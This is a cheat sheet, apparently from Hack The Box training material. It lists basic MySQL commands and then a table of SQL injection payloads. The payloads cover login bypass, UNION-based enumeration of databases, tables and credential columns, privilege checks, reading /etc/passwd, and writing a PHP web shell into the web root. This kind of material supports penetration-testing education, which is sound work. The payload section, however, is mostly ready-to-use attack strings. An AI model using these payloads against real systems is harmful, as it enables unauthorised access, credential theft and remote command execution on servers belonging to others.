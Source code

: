 ## MySQL

|**Command**|**Description**|
|---|---|
|**General**||
|`mysql -u root -h docker.hackthebox.eu -P 3306 -p`|login to mysql database|
|`SHOW DATABASES`|List available databases|
|`USE users`|Switch to database|
|**Tables**||
|`CREATE TABLE logins (id INT, ...)`|Add a new table|
|`SHOW TABLES`|List available tables in current database|
|`DESCRIBE logins`|Show table properties and columns|
|`INSERT INTO table_name VALUES (value_1,..)`|Add values to table|
|`INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)`|Add values to specific columns in a table|
|`UPDATE table_name SET column1=newvalue1, ... WHERE <condition>`|Update table values|
|**Columns**||
|`SELECT * FROM table_name`|Show all columns in a table|
|`SELECT column1, column2 FROM table_name`|Show specific columns in a table|
|`DROP TABLE logins`|Delete a table|
|`ALTER TABLE logins ADD newColumn INT`|Add new column|
|`ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn`|Rename column|
|`ALTER TABLE logins MODIFY oldColumn DATE`|Change column datatype|
|`ALTER TABLE logins DROP oldColumn`|Delete column|
|**Output**||
|`SELECT * FROM logins ORDER BY column_1`|Sort by column|
|`SELECT * FROM logins ORDER BY column_1 DESC`|Sort by column in descending order|
|`SELECT * FROM logins ORDER BY column_1 DESC, id ASC`|Sort by two-columns|
|`SELECT * FROM logins LIMIT 2`|Only show first two results|
|`SELECT * FROM logins LIMIT 1, 2`|Only show first two results starting from index 2|
|`SELECT * FROM table_name WHERE <condition>`|List results that meet a condition|
|`SELECT * FROM logins WHERE username LIKE 'admin%'`|List results where the name is similar to a given string|

## MySQL Operator Precedence

- Division (`/`), Multiplication (`*`), and Modulus (`%`)
- Addition (`+`) and Subtraction (`-`)
- Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
- NOT (`!`)
- AND (`&&`)
- OR (`||`)

## SQL Injection

|**Payload**|**Description**|
|---|---|
|**Auth Bypass**||
|`admin' or '1'='1`|Basic Auth Bypass|
|`admin')-- -`|Basic Auth Bypass With comments|
|[Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)||
|**Union Injection**||
|`' order by 1-- -`|Detect number of columns using `order by`|
|`cn' UNION select 1,2,3-- -`|Detect number of columns using Union injection|
|`cn' UNION select 1,@@version,3,4-- -`|Basic Union injection|
|`UNION select username, 2, 3, 4 from passwords-- -`|Union injection for 4 columns|
|**DB Enumeration**||
|`SELECT @@version`|Fingerprint MySQL with query output|
|`SELECT SLEEP(5)`|Fingerprint MySQL with no output|
|`cn' UNION select 1,database(),2,3-- -`|Current database name|
|`cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`|List all databases|
|`cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`|List all tables in a specific database|
|`cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`|List all columns in a specific table|
|`cn' UNION select 1, username, password, 4 from dev.credentials-- -`|Dump data from a table in another database|
|**Privileges**||
|`cn' UNION SELECT 1, user(), 3, 4-- -`|Find current user|
|`cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`|Find if user has admin privileges|
|`cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`|Find if all user privileges|
|`cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`|Find which directories can be accessed through MySQL|
|**File Injection**||
|`cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`|Read local file|
|`select 'file written successfully!' into outfile '/var/www/html/proof.txt'`|Write a string to a local file|
|`cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`|Write a web shell into the base web directory|
